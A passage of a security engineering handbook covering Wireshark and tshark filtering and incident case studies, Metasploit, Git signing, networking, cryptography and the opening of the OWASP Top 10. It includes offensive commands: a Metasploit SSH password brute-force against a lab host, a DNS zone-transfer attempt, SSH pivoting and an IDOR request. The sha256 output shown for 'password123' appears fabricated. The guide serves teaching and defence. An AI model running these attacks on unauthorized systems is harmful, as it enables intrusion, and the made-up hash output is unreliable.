| `tcp port 80` | TCP port 80 only |
| `host 10.0.0.5 and port 53` | DNS to/from specific resolver |
| `not port 22` | Exclude SSH (reduce noise) |
| `not arp and not port 22` | Common baseline for server capture |
| `vlan 100 and port 443` | VLAN-tagged HTTPS |

```bash
# tcpdump equivalent (same BPF syntax)
sudo tcpdump -i eth0 -w web.pcap 'host 192.168.1.100 and tcp port 80 or tcp port 443'
```

> **Never Forget:** Capture filters **cannot be changed** after the file is saved. Captured too much noise? Start over with a tighter filter or use display filters on what you have.

---

### Display Filters (After Capture — Wireshark Syntax)

Enter in the filter bar (green = valid, red = syntax error).

#### By IP and Port

```
ip.addr == 192.168.1.100          # Either source or dest
ip.src == 10.0.0.5                # Source only
ip.dst == 10.0.0.5                # Destination only
tcp.port == 443                   # TCP port either direction
udp.port == 53                    # DNS
!arp                              # Hide ARP noise
```

#### HTTP (Cleartext)

```
http                              # All HTTP
http.request                      # Client requests only
http.response                     # Server responses
http.request.method == "POST"     # POST requests
http.request.uri contains "login"
http.host == "vulnerable.lab"
http.response.code == 401
http.authorization                  # Basic auth headers (often Base64)
```

#### DNS

```
dns                               # All DNS
dns.qry.name contains "malware"
dns.flags.response == 0           # Queries only
dns.flags.response == 1           # Responses only
dns.a                             # A record responses
```

#### TLS / HTTPS

```
tls                               # All TLS
tls.handshake.type == 1           # Client Hello
tls.handshake.type == 2           # Server Hello
tls.handshake.extensions_server_name contains "bank"
ssl.record.version                # Legacy filter name still works
```

Note: **HTTPS payload is encrypted** unless you import decryption keys (see below). You still see SNI, IPs, timing, cert info.

#### TCP Troubleshooting

```
tcp.flags.syn == 1 && tcp.flags.ack == 0    # SYN (connection start)
tcp.flags.reset == 1                          # RST (refused/aborted)
tcp.analysis.retransmission                   # Retransmits (network issues)
tcp.analysis.flags                            # Expert info flags
tcp.stream eq 5                               # Entire TCP stream #5
```

#### Combining Filters

```
(ip.addr == 192.168.1.50) && (tcp.port == 443) && (tls.handshake.type == 1)
http.request && !(http.host contains "google")
dns.qry.name matches ".*\\.evil\\.com$"
```

---

### Color Rules (Visual Triage)

**View → Coloring Rules** — highlight suspicious traffic instantly.

Example custom rules:

| Name | Filter | Color |
|------|--------|-------|
| HTTP POST | `http.request.method == "POST"` | Yellow |
| TCP RST | `tcp.flags.reset == 1` | Red |
| DNS long query | `dns.qry.name.len > 50` | Orange |
| TLS Client Hello | `tls.handshake.type == 1` | Light blue |
| Suspect IP | `ip.addr == 203.0.113.50` | Red |

**Security use case:** During incident triage, color rules surface **RST storms, unusual DNS length, and C2 IPs** before you read individual packets.

---

### Follow Stream — Most Important Feature

Right-click packet → **Follow → TCP Stream** (or UDP/HTTP/ TLS as available).

| Stream Type | Reveals |
|-------------|---------|
| **TCP Stream** | Raw byte conversation (HTTP, FTP commands, telnet) |
| **HTTP Stream** | Reconstructed HTTP request/response pairs |
| **TLS Stream** | Encrypted blob (needs decryption keys to read) |

**Case:** FTP credentials often visible in TCP stream even when split across many packets.

**Save evidence:** In stream window → **Save as** → document stream number and packet range in report.

---

### Statistics Menu — Hunt Patterns at Scale

#### Protocol Hierarchy

**Statistics → Protocol Hierarchy**

Shows percentage breakdown. Red flags:

- 40%+ DNS when baseline is 5% → possible DNS tunneling
- Unexpected ICMP volume → scan or exfil test
- SMB on internet-facing segment → misconfiguration

#### Conversations

**Statistics → Conversations → IPv4 / TCP**

Sort by **Bytes** or **Duration**:

| Pattern | What It Suggests |
|---------|------------------|
| Small packets every 60s to same IP | **Beaconing** C2 |
| One IP receiving GB from internal host | **Data exfiltration** |
| Thousands of short TCP sessions | **Port scan** or spray |

#### Endpoints

**Statistics → Endpoints → IPv4**

Find top talkers — compromised host often becomes top source after infection.

#### I/O Graph

**Statistics → I/O Graph**

Plot packets/sec over time — correlate with incident timeline (" malware installed at 14:32, spike at 14:35").

#### Expert Information

**Analyze → Expert Information**

Wireshark flags retransmissions, duplicate ACKs, malformed packets — quick network quality + anomaly hints.

---

### Decrypting HTTPS in Wireshark (Lab / Authorized Only)

You can decrypt TLS **only if you have the private key** or **session key log** (your browser or server).

#### Method 1: SSLKEYLOGFILE (Browser Traffic — Lab)

```bash
# Linux — before starting browser
export SSLKEYLOGFILE=~/tls-keys.log
firefox &
# Browse target HTTPS site, then close

# Wireshark: Edit → Preferences → Protocols → TLS
# (Pre)-Master-Secret log filename → point to tls-keys.log
# Reload capture — HTTP inside TLS becomes visible
```

#### Method 2: Server Private Key (Legacy / RSA key exchange only)

Modern TLS 1.3 with forward secrecy **cannot** be decrypted with server key alone. Works only for older RSA key exchange captures.

**Edit → Preferences → Protocols → TLS → RSA keys list → Add IP, port, protocol, key file**

> **Never Forget:** In production IR you usually **do not** have TLS keys. You rely on **SNI, JA3/JA3S fingerprints, IP, timing, and DNS** — not decrypted HTTP.

---

### JA3 / TLS Fingerprinting (No Decryption Needed)

Even without decrypting payload, Client Hello contains cipher suites → **JA3 hash** identifies client software ( malware, curl, specific bot version).

```
Display filter: tls.handshake.type == 1
Column: add custom field tls.handshake.ja3 (if enabled) or export via tshark
```

```bash
tshark -r capture.pcap -Y "tls.handshake.type == 1" \
  -T fields -e ip.src -e tls.handshake.ja3 2>/dev/null | head
```

**Security use case:** SOC rules alert when internal server JA3 matches known Cobalt Strike or Metasploit profiles.

---

### tshark — Wireshark on the Command Line

Same display filter engine (`-Y`), BPF capture filter (`-f`).

```bash
# Top 10 talkers by bytes
tshark -r capture.pcap -q -z conv,ip -z conv,tcp

# Extract all DNS queries
tshark -r capture.pcap -Y "dns.flags.response == 0" \
  -T fields -e frame.time -e ip.src -e dns.qry.name

# HTTP hosts accessed
tshark -r capture.pcap -Y "http.request" \
  -T fields -e ip.src -e http.host -e http.request.uri | sort -u

# Count packets by protocol
tshark -r capture.pcap -q -z io,phs

# Live capture with ring buffer (incident — limit disk)
sudo tshark -i eth0 -f "not port 22" -b filesize:100000 -b files:10 \
  -w /var/log/captures/ring.pcap

# Export JSON for SIEM
tshark -r capture.pcap -Y "dns" -T json > dns.json
```

---

### Case Study 1: Cleartext Credential Theft (HTTP)

**Alert:** IDS flagged POST to `/login` on internal app.

**Steps:**

1. Open `incident-20260720.pcap`
2. Display filter: `http.request.method == "POST" && http.request.uri contains "login"`
3. Select packet → Follow HTTP Stream
4. Document: username `jsmith`, password in cleartext (lab finding)
5. Display filter: `ip.addr == <client_ip> && http` — full browsing session
6. Statistics → Conversations — confirm no other exfil destinations

**Report excerpt:** "Packet #1842 (HTTP POST) contains authentication credentials transmitted without TLS. Recommend enforce HTTPS + HSTS."

---

### Case Study 2: DNS Tunneling Suspicion

**Alert:** Workstation sent 15,000 DNS queries in 1 hour to `update.cloud-cdn.net`.

**Steps:**

1. Display filter: `dns.qry.name contains "cloud-cdn.net"`
2. Add column: **Length** — sort by `dns.qry.name.len` descending
3. Observe queries like `aGVsbG8.base64data.update.cloud-cdn.net` (long subdomain labels)
4. Statistics → Conversations → DNS — one workstation dominates
5. Compare: normal Google DNS queries are short names

**Indicators:**

| Normal DNS | Tunneling |
|------------|-----------|
| Short names (`www.example.com`) | Very long subdomains |
| Few queries/min | High query rate to one domain |
| Varied domains | Single suspicious domain |

**Next step:** Block domain at firewall, isolate host, image disk — Wireshark proves **network IOC**, not malware binary analysis.

---

### Case Study 3: TLS Beaconing (Encrypted C2)

**Alert:** EDR missed sample; NetFlow shows periodic HTTPS to `203.0.113.50`.

**Steps:**

1. Filter: `ip.addr == 203.0.113.50 && tcp.port == 443`
2. **View → Time → Seconds Since Previous Displayed Packet**
3. Notice connections every **120 seconds ± 2s** — machine-like interval
4. Follow TCP Stream — encrypted (expected)
5. Note **TLS SNI** in Client Hello: `cdn-static.azureedge-clone.com` (typosquat)
6. Export Client Hello JA3 hash → match threat intel

**Without decryption you still prove:**

- Regular beacon interval
- Suspicious SNI / cert
- Persistent connection to rare IP

---

### Case Study 4: Port Scan Reconstruction

**Alert:** Internal host scanned entire /24.

**Steps:**

1. Display filter: `ip.src == 10.0.0.99 && tcp.flags.syn == 1 && tcp.flags.ack == 0`
2. **Statistics → Conversations → TCP** — thousands of short flows
3. Export unique destinations:

```bash
tshark -r scan.pcap -Y "ip.src==10.0.0.99 && tcp.flags.syn==1 && tcp.flags.ack==0" \
  -T fields -e ip.dst -e tcp.dstport | sort -u | wc -l
```

4. Map to MITRE ATT&CK **T1046 Network Service Discovery**

---

### Case Study 5: ARP Spoofing / MITM (LAN)

**Symptom:** Gateway ARP table shows duplicate MAC for same IP.

**Steps:**

1. Display filter: `arp`
2. Look for **gratuitous ARP** or multiple MACs claiming `192.168.1.1`
3. Filter: `arp.duplicate-address-detected` (if expert enabled)
4. Correlate with unexpected HTTP redirects on cleartext sites

**Tool link:** Wireshark confirms MITM; prevention is **DAI (Dynamic ARP Inspection)** on switches.

---

### Incident Response Workflow with Wireshark



**Chain of custody checklist:**

```bash
sha256sum capture.pcap > capture.pcap.sha256
# Document: who captured, when, interface, filter, storage location
```

Never analyze original — work on **copy**. Store read-only.

---

### Wireshark in Pentest Engagements

| Phase | Wireshark Role |
|-------|----------------|
| **Recon** | Passive capture on client VLAN (authorized) — map protocols |
| **Exploitation** | Confirm exploit traffic (shell reverse connection) |
| **Post-exploit** | Identify C2 channels, lateral movement (SMB, RDP, WinRM) |
| **Reporting** | Screenshot Follow Stream + packet numbers as evidence |

**Capture points:**

| Location | Sees |
|----------|------|
| Client NIC | What that host sends/receives |
| SPAN port | Mirror of switch traffic |
| Network tap | Inline copy (gold standard forensics) |
| VPN concentrator | Remote user traffic |

---

### Wireshark in SOC / Blue Team

| Use | Example |
|-----|---------|
| **Validate IDS alert** | Did packet actually contain exploit string? |
| **Scope incident** | Which internal hosts talked to C2 IP? |
| **Baseline comparison** | Capture normal day vs incident day |
| **Exfil sizing** | Bytes sent to external IP via Conversations |
| **Phishing link click** | HTTP GET to malicious URL from user workstation |

**Splunk + pcap:** Export IOCs from tshark → feed SIEM search:

```bash
tshark -r bad.pcap -Y "dns.flags.response == 0" -T fields -e dns.qry.name | \
  sort -u > ioc_domains.txt
```

---

### Common Mistakes

| Mistake | Fix |
|---------|-----|
| Capture filter when meaning display filter | Remember: capture = BPF before; display = after |
| Capturing on wrong interface | `ip link` / Wireshark list — pick active interface |
| Promiscuous mode off on SPAN | Enable promiscuous in Capture Options |
| Expecting to read HTTPS without keys | Use SNI, JA3, metadata, or SSLKEYLOGFILE in lab |
| Analyzing multi-GB pcap in GUI | Use `editcap` to slice time range first |
| No timestamps synced | Correlate with logs using NTP-synced clocks |

```bash
# Slice pcap to incident window (editcap comes with Wireshark)
editcap -A "2026-07-20 14:30:00" -B "2026-07-20 15:00:00" \
  huge.pcap incident-window.pcap
```

---

### Wireshark Display Filter Cheat Sheet

| Goal | Filter |
|------|--------|
| All traffic from host | `ip.src == 10.0.0.5` |
| Exclude noise | `!(arp or icmp or port 5353)` |
| Failed TCP connections | `tcp.flags.reset == 1` |
| Slow connections | `tcp.analysis.retransmission` |
| HTTP errors | `http.response.code >= 400` |
| Specific cookie | `http.cookie contains "sessionid"` |
| SMB file share | `smb2 \|\| nbss` |
| RDP | `tcp.port == 3389` |
| SSH | `tcp.port == 22` |
| ICMP ping | `icmp.type == 8` |
| Fragmentation attacks | `ip.flags.mf == 1` |
| VLAN 100 | `vlan.id == 100` |

---

### Wireshark Master Checklist (Print This)

```
[ ] Confirm authorization to capture
[ ] Sync system time (NTP)
[ ] Choose interface / SPAN / tap
[ ] Set capture filter (BPF) — tight as possible
[ ] Record start time + filter in notes
[ ] Stop capture; hash file (sha256sum)
[ ] Work on copy, not original
[ ] Apply display filters; save filter bookmarks
[ ] Statistics → Conversations + Protocol Hierarchy
[ ] Follow streams for cleartext protocols
[ ] Extract IOCs (IP, domain, JA3, URI)
[ ] Map findings to timeline + packet numbers
[ ] Store pcap + report in evidence system
```

> **Never Forget:** Wireshark shows **what happened on the wire** — it does not replace disk forensics or EDR, but it is **ground truth** for network claims in court and executive reports.

---
---

## Metasploit Framework Layout

```
/usr/share/metasploit-framework/
├── modules/
│   ├── exploits/       → Exploit modules
│   ├── payloads/       → Shellcode payloads
│   ├── auxiliary/      → Scanning, fuzzing, admin modules
│   ├── post/           → Post-exploitation modules
│   ├── encoders/       → Payload encoding
│   └── nops/           → NOP generators
├── tools/              → Standalone tools
├── scripts/            → Meterpreter scripts
└── data/               → Wordlists, templates, binaries
```

Basic usage:

```bash
msfconsole
msf6 > search type:exploit platform:linux
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 > set RHOSTS 192.168.56.20
msf6 > set USERNAME admin
msf6 > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 > run
```

> **Never Forget:** Metasploit is for **authorized testing only**. Using exploits against systems without permission is illegal.

---

## Git for Security Repos

```bash
# Initialize security project
git init my-security-tools
cd my-security-tools

# .gitignore — CRITICAL for security work
cat > .gitignore << 'EOF'
*.pcap
*.pcapng
.env
*.key
*.pem
id_rsa*
credentials*
loot/
screenshots/private/
EOF

# Commit
git add .
git commit -S -m "Initial commit: log parser tool"

# Sign commits with GPG
git config --local commit.gpgsign true
git config --local user.signingkey YOUR_GPG_KEY_ID
```

### GPG Signing

```bash
# Generate GPG key
gpg --full-generate-key
# Choose: RSA 4096, expires 2y, your email

# List keys
gpg --list-secret-keys --keyid-format LONG

# Export public key (for GitHub)
gpg --armor --export YOUR_KEY_ID

# Sign a file (evidence integrity)
gpg --sign --armor evidence.tar.gz
# Creates evidence.tar.gz.asc

# Verify
gpg --verify evidence.tar.gz.asc evidence.tar.gz
```

**Security use case:** Signed commits prove authorship. GPG-signed evidence packages prove integrity and non-repudiation.

---

# Part 4: Networking Essentials for Security

> **Cross-reference:** For comprehensive networking depth, see the companion **NETWORKING Master Guide**. This section covers what security engineers must know at minimum.

## OSI Model (Security Lens)

| Layer | Name | Protocols | Security Relevance |
|-------|------|-----------|-------------------|
| 7 | Application | HTTP, DNS, SMTP, SSH | OWASP vulns, app firewalls, WAF |
| 6 | Presentation | TLS, SSL, encoding | Encryption, cert validation |
| 5 | Session | NetBIOS, RPC | Session hijacking, token theft |
| 4 | Transport | TCP, UDP | Port scanning, SYN floods, firewall rules |
| 3 | Network | IP, ICMP | Routing attacks, IP spoofing |
| 2 | Data Link | Ethernet, MAC, ARP | ARP spoofing, MAC flooding |
| 1 | Physical | Cables, WiFi radio | Tap access, evil twin APs |



## TCP vs UDP (Security Implications)

| Feature | TCP | UDP |
|---------|-----|-----|
| Connection | Connection-oriented (3-way handshake) | Connectionless |
| Reliability | Guaranteed delivery | Best effort |
| Speed | Slower (overhead) | Faster |
| Security scanning | SYN scan detects open ports | UDP scan less reliable |
| Common attacks | SYN flood, session hijacking | Amplification (DNS, NTP) |

### TCP Three-Way Handshake

```
Client → Server: SYN
Server → Client: SYN-ACK
Client → Server: ACK
[Connection established]
```

Security note: SYN flood sends many SYN packets without completing handshake, exhausting server resources (availability attack).

## IP Addressing Essentials

| Type | Range | Security Note |
|------|-------|---------------|
| Private Class A | 10.0.0.0/8 | Internal networks, not routable on internet |
| Private Class B | 172.16.0.0/12 | Same |
| Private Class C | 192.168.0.0/16 | Home/lab networks |
| Loopback | 127.0.0.0/8 | Localhost only |
| Link-local | 169.254.0.0/16 | APIPA, no DHCP |

### CIDR Quick Reference

| CIDR | Hosts | Use Case |
|------|-------|----------|
| /32 | 1 | Single host (firewall rule) |
| /24 | 254 | Subnet (common lab) |
| /16 | 65,534 | Large internal network |
| /8 | 16M+ | Enterprise (10.0.0.0/8) |

## DNS Security

| Record | Purpose | Security Relevance |
|--------|---------|------------------|
| A | IPv4 address | DNS hijacking target |
| AAAA | IPv6 address | Same |
| MX | Mail server | Email routing spoofing |
| TXT | Text data | SPF, DKIM, DMARC records |
| CNAME | Alias | Subdomain takeover if misconfigured |
| NS | Name server | Zone transfer (AXFR) leaks info |

```bash
# Security-relevant DNS queries
dig target.com ANY
dig target.com AXFR @ns1.target.com    # Zone transfer attempt
dig target.com TXT                    # SPF/DMARC
nslookup -type=MX target.com
```

**DNS exfiltration:** Attackers encode stolen data in DNS queries to evade DLP. Monitor for unusual query volumes and long subdomain strings.

## NAT and Firewalls

```
[Internal 10.0.0.0/8] → [NAT/FW] → [Internet]
                         ↑
                    Stateful inspection
                    Allow: outbound ESTABLISHED
                    Deny: inbound NEW (except DMZ)
```

| Concept | Security Role |
|---------|---------------|
| NAT | Hides internal IP topology |
| Stateful firewall | Tracks connection state, allows return traffic |
| DMZ | Semi-trusted zone for public-facing servers |
| Segmentation | Limits lateral movement |

## VPN and Tunneling

| Type | Use Case | Security Consideration |
|------|----------|------------------------|
| Site-to-site IPsec | Connect office networks | Strong crypto, key rotation |
| Remote access SSL VPN | Work from home | MFA required, split tunneling risks |
| WireGuard | Modern lightweight VPN | Simple config, fast |
| SSH tunnel | Port forwarding | `-L`, `-R`, `-D` for pivoting in authorized pentests |

```bash
# Local port forward (access remote service through SSH)
ssh -L 8080:internal-server:80 user@jump-host

# Dynamic SOCKS proxy (pivot through host)
ssh -D 9050 user@jump-host
```

## Network Security Monitoring Points

| Location | What You See | Tools |
|----------|--------------|-------|
| Network tap/SPAN | All traffic copy | Wireshark, tcpdump, Zeek |
| Firewall logs | Allowed/denied flows | SIEM correlation |
| DNS server logs | Query patterns | Detect C2, exfiltration |
| Proxy logs | HTTP/HTTPS (if decrypted) | URL filtering, DLP |
| IDS/IPS | Signature/anomaly alerts | Snort, Suricata |

> **Never Forget:** You cannot protect what you cannot see. **Network visibility** is prerequisite to detection.

---

# Part 5: Cryptography

## Symmetric Encryption

Same key encrypts and decrypts. Fast, suitable for bulk data.

| Algorithm | Key Size | Status |
|-----------|----------|--------|
| AES | 128, 192, 256 bits | **Use this** — industry standard |
| ChaCha20 | 256 bits | Modern alternative, mobile-friendly |
| 3DES | 168 bits | **Deprecated** — do not use |
| DES | 56 bits | **Broken** — never use |

```bash
# Encrypt file with AES-256
openssl enc -aes-256-cbc -salt -pbkdf2 -in secret.doc -out secret.doc.enc

# Decrypt
openssl enc -aes-256-cbc -d -pbkdf2 -in secret.doc.enc -out secret.doc
```

**Security use case:** Encrypt evidence at rest, protect sensitive files on disk.

### Block Cipher Modes

| Mode | Properties | Use Case |
|------|------------|----------|
| ECB | **Insecure** — patterns visible | Never use |
| CBC | Needs random IV | Legacy TLS |
| GCM | Authenticated encryption (AEAD) | TLS 1.3, modern apps |
| CTR | Stream-like, parallelizable | Disk encryption |

> **Never Forget:** **Never use ECB mode.** The penguin logo test proves why — identical plaintext blocks produce identical ciphertext blocks.

## Asymmetric Encryption

Public/private key pair. Public key encrypts (or verifies); private key decrypts (or signs).

| Algorithm | Key Size | Status |
|-----------|----------|--------|
| RSA | 2048+ bits (4096 preferred) | Widely used, slower |
| ECC (P-256, Curve25519) | 256 bits | Modern, faster, smaller keys |
| DSA | 2048+ bits | Legacy, avoid for new systems |

```
Alice wants to send Bob a secret:
1. Alice obtains Bob's PUBLIC key
2. Alice encrypts message with Bob's public key
3. Only Bob's PRIVATE key can decrypt

Digital signature (prove Alice sent it):
1. Alice signs message with her PRIVATE key
2. Anyone verifies with Alice's PUBLIC key
```

**Security use case:** Key exchange, digital signatures, certificate infrastructure.

## Hashing

One-way functions. Cannot reverse hash to get original input.

| Algorithm | Output Size | Status |
|-----------|-------------|--------|
| SHA-256 | 256 bits | **Standard** — use for integrity |
| SHA-3 | Variable | Alternative standard |
| SHA-1 | 160 bits | **Deprecated** — collision attacks exist |
| MD5 | 128 bits | **Broken** — never use for security |
| bcrypt/scrypt/Argon2 | Variable | **Password hashing** — use these |

```bash
echo -n "password123" | sha256sum
# Output: ef92b778bafe771e89245ad89aebc968ac0e0d83526b7d4e8e0e0e0e0e0e0e0

# Password hashing with bcrypt (Python)
python3 -c "import bcrypt; print(bcrypt.hashpw(b'password123', bcrypt.gensalt()))"
```

### Salting

```
Without salt:
  hash("password123") = always the same → rainbow table attack

With salt:
  hash("password123" + random_salt) = unique per user → rainbow tables useless
```

> **Never Forget:** **Never store passwords in plaintext or with unsalted MD5/SHA.** Use bcrypt, scrypt, or Argon2 with unique salt per password.

## PKI (Public Key Infrastructure)



| Component | Role |
|-----------|------|
| Root CA | Ultimate trust anchor, kept offline |
| Intermediate CA | Issues certificates, online |
| Certificate | Binds public key to identity (domain, org) |
| CRL/OCSP | Revocation checking |
| Trust Store | Browser/OS collection of trusted root CAs |

### Certificate Fields

```
Subject: CN=www.example.com, O=Example Inc, C=US
Issuer: CN=Let's Encrypt Authority X3
Valid: 2026-01-01 to 2026-04-01
Public Key: RSA 2048 / ECDSA P-256
Signature Algorithm: SHA-256 with RSA
SANs: www.example.com, example.com
```

```bash
# Inspect certificate
openssl s_client -connect example.com:443 -servername example.com </dev/null 2>/dev/null | openssl x509 -noout -text

# Check expiration
echo | openssl s_client -connect example.com:443 2>/dev/null | openssl x509 -noout -dates

# Verify certificate chain
openssl verify -CAfile ca-bundle.crt server.crt
```

## TLS Handshake (1.3 Simplified)



| Step | Purpose |
|------|---------|
| ClientHello | Client proposes ciphers, sends key share |
| ServerHello | Server selects cipher, sends cert + key share |
| Key derivation | Both derive session keys |
| Finished | Confirm handshake integrity |
| Application data | Encrypted communication begins |

TLS 1.3 improvements: Faster (1-RTT), removed weak ciphers, encrypts more of handshake.

```bash
# Test TLS configuration
nmap --script ssl-enum-ciphers -p 443 example.com
testssl.sh example.com
```

## HSM (Hardware Security Module)

| Feature | Description |
|---------|-------------|
| Purpose | Generate, store, and use crypto keys in tamper-resistant hardware |
| Keys | Never leave the HSM in plaintext |
| Use cases | CA root keys, payment processing, code signing |
| Compliance | FIPS 140-2/3 Level 3+ for government |
| Cloud | AWS CloudHSM, Azure Dedicated HSM, GCP Cloud HSM |

> **Never Forget:** Software keys on disk can be stolen. **HSMs protect keys even if the server is compromised** — the key material never exists in RAM as plaintext.

## Common Cryptographic Mistakes

| Mistake | Why It Is Bad | Fix |
|---------|---------------|-----|
| ECB mode | Reveals patterns | Use GCM or CBC with random IV |
| MD5/SHA-1 for passwords | Collision/brute force | bcrypt/Argon2 |
| Hardcoded keys in source | Keys in Git forever | Secrets manager, env vars |
| Self-signed certs in production | No identity verification | Proper CA-signed certs |
| Not validating cert chain | MITM possible | Always verify chain and hostname |
| Rolling your own crypto | You will get it wrong | Use established libraries |
| Weak RSA key (<2048) | Factorizable | Minimum 2048, prefer 4096 or ECC |
| Reusing nonce/IV | Catastrophic for GCM | Generate unique nonce per encryption |

## Practical OpenSSL Commands

```bash
# Generate RSA private key
openssl genrsa -out private.key 4096

# Generate CSR
openssl req -new -key private.key -out server.csr \
  -subj "/CN=lab.local/O=Lab/C=US"

# Generate self-signed cert (lab only)
openssl x509 -req -days 365 -in server.csr -signkey private.key -out server.crt

# Generate DH parameters (legacy, TLS 1.3 uses ECDHE)
openssl dhparam -out dhparam.pem 2048

# Verify cert and key match
openssl x509 -noout -modulus -in server.crt | openssl md5
openssl rsa -noout -modulus -in private.key | openssl md5
# Hashes must match

# Encrypt/decrypt with public/private key
openssl rsautl -encrypt -pubin -inkey public.pem -in msg.txt -out msg.enc
openssl rsautl -decrypt -inkey private.key -in msg.enc -out msg.dec

# Create PKCS#12 bundle
openssl pkcs12 -export -out cert.pfx -inkey private.key -in server.crt

# Speed benchmark
openssl speed aes-256-gcm sha256
```

---

# Part 6: Web Application Security

## OWASP Top 10 (2021) — Complete Reference

The OWASP Top 10 represents the most critical web application security risks. Each entry includes description, example, detection, and remediation.

### A01: Broken Access Control

**What:** Users can access resources or perform actions outside their intended permissions.

**Example — IDOR (Insecure Direct Object Reference):**

```
# User A is logged in as id=100
GET /api/orders/100 HTTP/1.1    → Returns User A's orders (authorized)

# User A changes ID
GET /api/orders/101 HTTP/1.1    → Returns User B's orders (BROKEN ACCESS CONTROL)
```

